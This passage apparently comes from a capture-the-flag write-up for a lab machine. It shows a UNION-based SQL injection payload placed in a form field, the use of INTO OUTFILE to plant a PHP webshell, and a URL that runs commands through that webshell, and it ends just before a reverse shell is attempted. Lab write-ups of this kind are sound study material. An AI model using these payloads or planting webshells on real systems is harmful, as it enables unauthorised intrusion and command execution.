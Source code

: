 <br>

I send the following through to test and it works without an error message. This shows us the user is **uhc@localhost** and we now know the format to prevent errors:

```sql
username=testuser&country=Argentina' UNION SELECT user()-- -
```

There's a lot we could do here but I'm going to go straight for creating my own PHP file to use as a webshell. I use **INTO OUTFILE** to create a file called **test.php** with the following in it:

![](images/validation6.png)

<br>

If successful this will allow us to navigate to **test.php** and provide it a **?test=whatever command we want**. Navigating to it via this URL:

```
http://10.10.11.116/test.php?test=hostname
```

We get back:

![](images/validation7.png)

<br>

So, our webshell is working. Let's see about getting a reverse shell now.
